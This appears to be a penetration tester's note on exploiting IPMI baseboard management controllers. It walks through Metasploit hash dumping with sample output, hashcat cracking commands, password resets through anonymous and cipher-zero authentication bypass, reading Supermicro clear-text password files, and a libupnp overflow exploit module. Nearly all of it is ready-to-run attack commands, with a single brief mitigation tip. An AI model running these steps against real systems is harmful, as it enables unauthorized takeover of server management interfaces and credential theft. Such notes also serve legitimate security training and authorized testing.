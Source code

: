 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/IPMI/Exploitation
---
```


# Exploitation

___

<!-- Default Credentials {{{-->
## Default Credentials

It may be possible to log in using the
[[General#Dangerous Settings|default passwords]]

___

<!-- }}} -->

<!-- Hash Cracking {{{-->
## Hash Cracking

The server sends a salted hash of the user's password to the client
before authentication takes place

> [!info]-
>
> During the authentication process, IPMI 2.0 mandates that the server send
> a salted
> [SHA1](https://en.wikipedia.org/wiki/SHA-1) or
> or
> [MD5](https://en.wikipedia.org/wiki/MD5)
> hash of the requested user password to the client


IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval
([ipmi_dumphashes](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/))

```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Select Exploit|Select scanner]]
>
> ```sh
> msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
> ```
>
> 2. [[Metasploit#Set Options|Select options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
> ```
>
> 3. [[Metasploit#Show Options|Show options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options
> ```
>
> ```sh
> Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):
>
>    Name                 Current Setting                                                    Required  Description
>    ----                 ---------------                                                    --------  -----------
>    CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
>    OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
>    OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
>    PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
>    RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
>    RPORT                623                                                                yes       The target port
>    THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
>    USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line
> ```
>
> 4. [[Metasploit#Run Exploit|Run the scan]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
> ```
> ```sh
> [+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
> [+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
> [*] Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
>
> This flaw is a critical component of the [[General|IPMI]] specification
> ```
<!-- }}} -->

> [!tip]- Hash Cracking
>
> Crack [[Enumeration#Dump Hashes|dumped password hashes]] with [[Hashcat]]
>
> ```sh
> hashcat -m 300 <ipmi_hash.txt> <rockyou.txt>
> ```
>
> HP iLO [[General#Dangerous Settings|default password]] crack with [[Hashcat]]
>
> ```sh
> hashcat -m 7300 <ipmi_hash.txt> -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
> ```


> [!Tip]- Mitigation
>
> There is no direct "fix" to this issue because the flaw is a critical component
> of the [[General|IPMI]] specification
>
> Clients can opt for
> - a very long, difficult to crack passwords
> - implement network segmentation rules
>   to restrict the direct access to the [[General#BMC|BMC]]s

<!-- Tip {{{-->
> [!tip]
>
> It should be possible to
> - [[Networking/Services/SSH/General|SSH]] into the many critical servers
>   as the `root` user
> - And gain access to the web management consoles for various network
>   monitoring tools
<!-- }}} -->

___

<!-- }}} -->

<!-- Anonymous Authentication {{{-->
## Anonymous Authentication

Reset the password of anonymous accounts

> [!example]-
>
> 1. List anonymous user accounts with
>    [ipmitool](https://github.com/ipmitool/ipmitool)
>
> ```sh
> ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
> ```
> ```sh
> ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
> 1                    false  false      true      ADMINISTRATOR
> 2  root            false  false      true      ADMINISTRATOR
> 3  admin            true    true      true      ADMINISTRATOR
> ```
>
> 2. Reset the password of an account
>
> ```sh
> ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 password
> ```
>
> 3. Login to the BMC over SSH using the new password for the `root` user account
>
> ```sh
> $ ssh root@10.0.0.97
> root@10.0.0.97's password: password
> >> SMASH-CLP Console v1.09 <<
> ```

___

<!-- }}} -->

<!-- Authentication Bypass {{{-->
## Authentication Bypass

IPMI 2.0 Cipher Zero Authentication Bypass Scanner
([ipmi_cipher_zero](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_cipher_zero/))

<!-- Example {{{-->
> [!example]-
>
> Identifies IPMI 2.0-compatible systems that are vulnerable
> to an authentication bypass vulnerability through the use of cipher zero
>
> ```sh
> msf > use auxiliary/scanner/ipmi/ipmi_cipher_zero
> msf auxiliary(ipmi_cipher_zero) > show actions
>     ...actions...
> msf auxiliary(ipmi_cipher_zero) > set ACTION < action-name >
> msf auxiliary(ipmi_cipher_zero) > show options
>     ...show and set options...
> msf auxiliary(ipmi_cipher_zero) > run
> ```
<!-- }}} -->

List and change user passwords with
[ipmitool](https://github.com/ipmitool/ipmitool)

> [!example]-
>
> List users
>
> ```sh
> ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list
> ```
>
> Change password
>
> ```sh
> ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123
> ```

___

<!-- }}} -->

<!-- Supermicro {{{-->
## Supermicro

<!-- Clear-text Passwords {{{-->
### Clear-text Passwords

Supermicro stores clear-text passwords

- `/nv/PSBlock`
- `/nv/PSStore`

> [!example]-
>
> ```sh
> cat /nv/PSBlock
> ```
> ```sh
>   admin                      ADMINpassword^TT                    rootOtherPassword!
> ```

<!-- }}} -->

<!-- UPnP Vulnerability {{{-->
### UPnP Vulnerability

Supermicro includes a vulneraple UPnP SSDP listener on UDP port `1900`

Portable UPnP SDK unique_service_name() Remote Code Execution
([libupnp_ssdp_overflow](https://www.rapid7.com/db/modules/exploit/multi/upnp/libupnp_ssdp_overflow/))

```sh
use exploit/multi/upnp/libupnp_ssdp_overflow
```

> [!example]-
>
> Exploits a buffer overflow in the unique_service_name()
> function of libupnp's SSDP processor.
> The libupnp library is used across thousands of devices
> and is referred to as the Intel SDK for UPnP Devices
> or the Portable SDK for UPnP Devices.
>
> ```sh
> msf > use exploit/multi/upnp/libupnp_ssdp_overflow
> msf exploit(libupnp_ssdp_overflow) > show targets
>     ...targets...
> msf exploit(libupnp_ssdp_overflow) > set TARGET < target-id >
> msf exploit(libupnp_ssdp_overflow) > show options
>     ...show and set options...
> msf exploit(libupnp_ssdp_overflow) > exploit
> ```

<!-- }}} -->

___

<!-- }}} -->
